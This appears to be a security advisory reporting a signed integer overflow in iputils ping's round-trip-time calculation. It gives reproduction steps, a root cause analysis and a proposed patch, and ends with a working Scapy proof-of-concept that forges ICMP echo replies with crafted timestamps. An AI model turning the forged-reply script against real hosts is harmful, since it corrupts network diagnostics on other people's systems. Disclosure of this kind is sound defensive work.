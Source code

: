 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in iputils `ping` RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In non ASan builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings and incorrect statistics.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. **Export ASan/UBSan build flags**

   ```sh
   export CFLAGS="-std=c99 -O1 -g -fsanitize=address,undefined -fno-omit-frame-pointer"
   export CXXFLAGS="$CFLAGS"
   export LDFLAGS="-fsanitize=address,undefined -fno-omit-frame-pointer"
   ```

2. **Clone and build iputils with sanitizers**

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Db_sanitize=address,undefined
   ninja
   ```
3. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
4. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
5. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```



https://github.com/user-attachments/assets/b218971e-fbdc-478e-a0ae-ef77540332be


## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv->tv_sec * 1000000 + tv->tv_usec
```

Because `tv->tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:


```diff
--- ping_common.c
+++ ping_common.c
@@ -754,7 +754,15 @@ gather_statistics(struct ping_rts *rts, uint8_t *icmph, int icmplen,
        tvsub(tv, &tmp_tv);
-       triptime = tv->tv_sec * 1000000 + tv->tv_usec;
+       {
+           __int128 delta = (__int128)tv->tv_sec * 1000000 + tv->tv_usec;
+           if (delta < 0) {
+               triptime = 0;
+           } else if (delta > LLONG_MAX) {
+               triptime = (long)LLONG_MAX;
+           } else {
+               triptime = (long)delta;
+           }
+       }
```

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*8   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----

**Reported by:** Mohamed Maatallah  
Email: [hotelsmaatallahrecemail@gmail.com](mailto:hotelsmaatallahrecemail@gmail.com)

---
